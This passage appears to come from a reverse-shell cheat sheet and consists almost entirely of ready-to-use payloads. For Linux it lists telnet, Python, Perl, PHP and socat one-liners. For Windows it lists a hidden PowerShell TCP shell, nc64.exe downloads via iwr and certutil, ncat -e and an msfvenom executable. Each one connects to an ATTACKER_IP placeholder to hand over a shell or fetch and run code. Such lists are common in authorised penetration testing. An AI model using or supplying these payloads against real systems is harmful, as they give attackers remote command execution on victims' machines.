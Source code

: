 Telnet fallback (when nc missing and /dev/tcp unavailable):
```bash
rm -f /tmp/p; mkfifo /tmp/p
telnet ATTACKER_IP LPORT 0</tmp/p | /bin/sh 1>/tmp/p 2>&1
```

Python 3 reverse shell:
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",LPORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

Perl reverse shell:
```bash
perl -e 'use Socket;$i="ATTACKER_IP";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

PHP one-liner:
```bash
php -r '$s=fsockopen("ATTACKER_IP",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Socat full TTY (best quality; requires socat on target):
```bash
socat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:LPORT
```

### 3) Windows reverse shell payloads (target)
PowerShell TCP reverse shell:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$c=New-Object Net.Sockets.TCPClient('ATTACKER_IP',LPORT);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$s.Write(([Text.Encoding]::ASCII).GetBytes($sb2),0,$sb2.Length);$s.Flush()}$c.Close()"
```

PowerShell download-and-exec nc64.exe (if allowed), then connect:
```powershell
powershell -c "iwr -UseBasicParsing http://ATTACKER_IP/nc64.exe -OutFile nc64.exe"
.\nc64.exe -e cmd.exe ATTACKER_IP LPORT
```

certutil download (alternate):
```cmd
certutil -urlcache -f http://ATTACKER_IP/nc64.exe nc64.exe
nc64.exe -e cmd.exe ATTACKER_IP LPORT
```

Ncat on Windows (Nmap’s ncat usually supports -e):
```cmd
ncat.exe ATTACKER_IP LPORT -e cmd.exe
```

Metasploit payloads (if permitted):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f exe -o rev.exe
# Serve and execute rev.exe on target; handler as above.
```
